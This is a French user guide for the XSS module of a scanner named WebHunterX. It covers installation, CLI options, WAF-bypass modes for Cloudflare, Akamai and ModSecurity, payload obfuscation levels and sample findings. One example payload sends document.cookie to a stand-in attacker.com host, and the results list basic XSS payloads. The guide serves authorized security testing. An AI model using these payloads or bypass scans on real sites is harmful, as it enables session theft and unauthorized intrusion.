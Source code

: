 # Guide d'utilisation de WebHunterX

## Module XSS

Le module XSS (Cross-Site Scripting) de WebHunterX permet de détecter et exploiter les vulnérabilités XSS dans les applications web.

### Installation

```bash
# Installation depuis le dépôt
git clone https://github.com/webhunterx/webhunterx.git
cd webhunterx
pip install -e .

# Ou directement depuis PyPI (une fois disponible)
# pip install webhunterx
```

### Utilisation basique

Pour lancer un scan XSS simple sur une URL cible :

```bash
python -m webhunterx.xss https://exemple.com
```

Ou si installé via pip :

```bash
webhunterx-xss https://exemple.com
```

### Options disponibles

Le scanner XSS offre de nombreuses options pour personnaliser les scans :

```
Options:
  -h, --help            Afficher l'aide
  -o, --output OUTPUT   Fichier de sortie pour le rapport
  -c, --cookies COOKIES Cookies à utiliser (format: "nom=valeur; nom2=valeur2")
  -t, --timeout TIMEOUT Timeout en secondes (défaut: 10)
  -v, --verbose         Mode verbeux pour plus de détails
  -r, --recursive       Exploration récursive du site
  -d, --depth DEPTH     Profondeur d'exploration (défaut: 2)
  -w, --waf WAF         Type de WAF à contourner (cloudflare, akamai, modsecurity)
  -b, --bypass          Activer le mode bypass WAF
  -O, --obfuscation {0,1,2,3}
                        Niveau d'obfuscation des payloads (0=aucun, 3=maximum)
  -p, --payload PAYLOAD Payload XSS personnalisé
  -H, --headers HEADERS En-têtes HTTP (format: "Nom1: Valeur1; Nom2: Valeur2")
  -P, --proxy PROXY     Utiliser un proxy (format: http://proxy:port)
```

### Exemples d'utilisation

#### Scan basique avec mode verbeux

```bash
webhunterx-xss https://exemple.com -v
```

#### Scan avec contournement de WAF Cloudflare et obfuscation avancée

```bash
webhunterx-xss https://exemple.com -b -w cloudflare -O 2
```

#### Scan avec authentification via cookies

```bash
webhunterx-xss https://exemple.com -c "PHPSESSID=abc123; auth=xyz789"
```

#### Scan avec payload personnalisé

```bash
webhunterx-xss https://exemple.com -p "<script>fetch('https://attacker.com/'+document.cookie)</script>"
```

#### Génération d'un rapport

```bash
webhunterx-xss https://exemple.com -o rapport.json
```

### Interprétation des résultats

Après l'exécution du scan, le programme affiche un résumé des résultats :

```
Résumé du scan XSS:
URL cible: https://exemple.com
Points d'injection trouvés: 12
Vulnérabilités détectées: 3
Temps écoulé: 45.23 secondes

Vulnérabilités trouvées:
1. https://exemple.com/search.php - URL parameter: q - <script>alert(1)</script>
2. https://exemple.com/contact.php - Form input: message - <img src=x onerror=alert(1)>
3. https://exemple.com/profile.php - Form input: username - <svg onload=alert(1)>
```

Pour une analyse plus détaillée, consultez le rapport JSON généré avec l'option `-o`.

### Fonctionnalités avancées

#### Bypass de WAF

Le module dispose de techniques spécifiques pour contourner les protections WAF :

```bash
webhunterx-xss https://exemple.com -b -w cloudflare
```

Supports des WAF :
- Cloudflare
- Akamai
- ModSecurity
- Techniques génériques (par défaut)

#### Obfuscation des payloads

Trois niveaux d'obfuscation disponibles :

1. Basique : encodage Unicode simple
2. Intermédiaire : encodage Base64, utilisation de fromCharCode
3. Avancé : techniques combinées et exploitation d'événements DOM

```bash
webhunterx-xss https://exemple.com -O 3
```

#### Exploration récursive

Pour analyser l'ensemble d'un site web :

```bash
webhunterx-xss https://exemple.com -r -d 3
```

### Avertissement de sécurité

Utilisez cet outil **uniquement** sur des systèmes pour lesquels vous avez une autorisation explicite. L'utilisation non autorisée est illégale et contraire à l'éthique. 